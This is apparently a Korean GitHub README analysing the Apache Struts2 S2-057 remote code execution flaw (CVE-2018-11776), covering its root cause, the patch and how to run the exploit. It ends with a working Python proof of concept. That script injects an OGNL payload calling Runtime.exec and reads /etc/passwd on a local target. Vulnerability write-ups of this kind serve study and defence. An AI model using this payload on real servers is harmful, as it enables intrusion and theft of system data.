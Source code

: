 # Apache Struts2 RCE Vulnearbility(S2-057)

## Information
- CVE : 2018-11776
- 해당 소프트웨어 : Apache Struts
- 해당 버전 : 2.3<2.3.34 / 2.5<2.5.16
- 취약점 유형 : 입력값 검증 문제

## Root Cause
이 취약점은 Struts에서 신뢰할 수 없는 사용자 데이터의 유효성 검증이 불충분하여 발생한다. 이 취약점은 아래 두 가지 조건이 만족할 때 발생한다. 
 1) alwaysSelectFullNamespace가 True인 경우로, Conventional 플러그인을 사용하는 경우 자동으로 이 값은 True로 설정된다. 
 2) 어플리케이션이 actions를 사용하는데, namespace value가 세팅되어있지 않거나, wildcard namespace가 설정된 경우("/*"같은 경우). 이는 Struts 설정 파일에서 설정할 수 있지만, Struts Convention plugin을 사용하는 경우에는 java 코드상에 설정되어 있다. 

### namespace란?
Struts에서 namespace는 동작 그룹을 의미한다. 같은 이름의 두 동작은 서로 다른 두 개의 namespace에 독립적으로 존재할 수 있다. 
가령, http://localhost:8080/koromoon/index.action 에서, /은 namespace, analysis.action은 작업을 의미한다. 또한, http://localhost:8080/koromoon/hacker/analysis.action 에서 hacker가 namespace, 그 으래의 analysis.action은 작업이다. 
이 취약점의 경우, 웹 응용 프로그램에서 namespace를 지정하지 않고 작업을 사용하거나 /*과 같은 wildcard namespace를 사용하는 경우에 문제가 발생한다. Struts가 주어진 작업에 대한 namespace를 찾을 수 없으면, 공격자가 지정한 naespace를 취하여 OGNL 표현식으로 평가하여 웹 어플리케이션에 원격코드실행을 할 수 있다. OGNL(객체 그래프 탐색 언어)는 Apache Struts의 동작을 사용자 정의하는 데 사용되는 언어이다. 

## Patch
2.5.16에서 2.5.17로 패치된 코드를 보면, 악의적인 코드가 OGNL 형식으로 주입되는걸 방지하기 위해 화이트리스트 기능을 하는 cleanupNamespaceName 메소드를 생성함을 볼 수 있음. 
![](Patch.png)
## PoC
```python
import requests
# Simple PoC for the Apache Struts vuln CVE-2018-11776
# @atucom

def runCMD(command):
    target = 'http://127.0.0.1:8080/struts3-showcase/'
    payload = '%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27' + command + '%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action'
    return requests.get(target + payload).text

print(runCMD('cat /etc/passwd'))
```

## How to run exploit?
취약한 버전의 apache struts가 운용된 상태에서, target IP 설정 후 PoC 실행. 
## Reference
- [Apache Struts 2 Wiki](https://cwiki.apache.org/confluence/display/WW/S2-057)
- [Apache Struts Vulnerability - CVE-2018-11776](https://blog.semmle.com/remote-code-execution-vulnerability-in-apache-struts-cve-2018-11776/)
- [KOROMOOON : Apache Struts2 원격실행코드 취약점 (S2-057)](https://koromoon.blogspot.com/2018/09/cve-2018-11776-apache-struts2-s2-057.html)_
- [github : atucom/CVE-2018-11776-PoC.py](https://gist.github.com/atucom/32eeeea5972d31f160816db7a1d62209)
